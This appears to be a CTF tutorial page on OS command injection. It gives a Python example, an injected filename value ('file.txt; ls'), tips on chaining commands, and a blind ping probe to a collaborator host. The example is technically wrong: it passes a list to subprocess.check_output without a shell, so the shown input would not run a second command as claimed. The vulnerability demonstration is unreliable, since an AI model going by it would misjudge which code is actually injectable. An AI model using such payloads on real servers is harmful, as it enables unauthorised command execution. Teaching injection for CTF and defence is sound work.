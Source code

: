 ```yaml
---
title: "Command Injection"
description: "Exploit unsanitized parameters in system commands to execute arbitrary OS commands on a web server."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["command injection", "rce", "subprocess", "os", "web security"]
authors: ["CTF.Support Team"]
summary: "Discover how web applications vulnerable to OS-level command injection allow arbitrary command execution."
aliases: ["/web/command-injection/"]
slug: "command-injection"
toc: true
---
```


## Introduction

**Command Injection** occurs when user input is concatenated into system commands executed by the application.  
In CTF challenges, this often grants full control over the server environment.

## Example (Python)

```python
import subprocess

def process_file(filename):
    return subprocess.check_output(['cat', filename])

filename = input('Enter a filename: ')
print(process_file(filename))
```

### Exploit

```text
filename = "file.txt; ls"
```

Resulting command:

```bash
cat file.txt; ls
```

## Tips

- Chain commands with `;`, `&&`, or `|`.
- Use blind command injection (e.g., `ping -c 1 <collaborator>`) to confirm execution.
- Try OS-specific payloads if Linux/Windows detection is uncertain.
